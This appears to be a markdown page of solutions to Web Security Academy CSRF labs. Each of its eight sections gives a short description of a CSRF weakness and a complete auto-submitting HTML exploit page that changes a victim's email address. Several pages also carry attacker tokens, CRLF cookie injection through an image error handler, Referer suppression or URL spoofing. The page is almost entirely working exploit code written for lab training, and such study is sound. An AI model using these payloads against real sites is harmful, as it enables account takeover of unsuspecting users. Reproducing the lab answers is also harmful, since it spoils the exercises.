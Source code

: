 # CSRF

## CSRF vulnerability with no defenses
```html
<html>
  <body>
    <form action="https://ac711fd11f4a145080cf065d007d0000.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token validation depends on request method
*Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.*
```html
<html>
  <body>
    <form action="https://ac821f841ea7fc638025526d00e80028.web-security-academy.net/email/change" method="GET">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Validation of CSRF token depends on token being present
*Some applications correctly validate the token when it is present but skip the validation if the token is omitted.*
```html
<html>
  <body>
    <form action="https://ac4a1f6c1e26373580a1293100d10042.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is not tied to user session
*Some applications do not validate that the token belongs to the same session as the user who is making the request.
Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.*
```html
<html>
  <body>
    <form action="https://ac951fd61fbca61f80cd57e100bf002d.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nvYjyCnkZg9lxPdk0jUwfsYsM7IGqZP5">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is tied to non-session cookie
*In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the
same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks,
one for session handling and one for CSRF protection, which are not integrated together.*
```html
<!-- Cookie csrfKey works as session ID here. It's app weakness. -->
<html>
  <body>
    <form action="https://acd41f251facd65c80122553008d00c5.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nwA4aBrVat0amHXA9Z6nfo8coPU8JhWK"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim.  -->
    <img src="https://acd41f251facd65c80122553008d00c5.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF where token is duplicated in cookie
*In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of
tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.
When the subsequent request is validated, the application simply verifies that the token submitted in the
request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense
against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state.*
```html
<html>
  <body>
    <form action="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim. -->
    <img src="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=myCsrfToken" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF where Referer validation depends on header being present
*Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.*
```html
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://ac341ff21e634bca80a3b4fa00840005.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <img src="1" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF with broken Referer validation
*Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application
simply validates that the Referer contains its own domain name, then the attacker can place the required value
elsewhere in the URL.*
```html
<html>
  <body>
    <form action="https://ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      history.pushState("", "", "/ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
```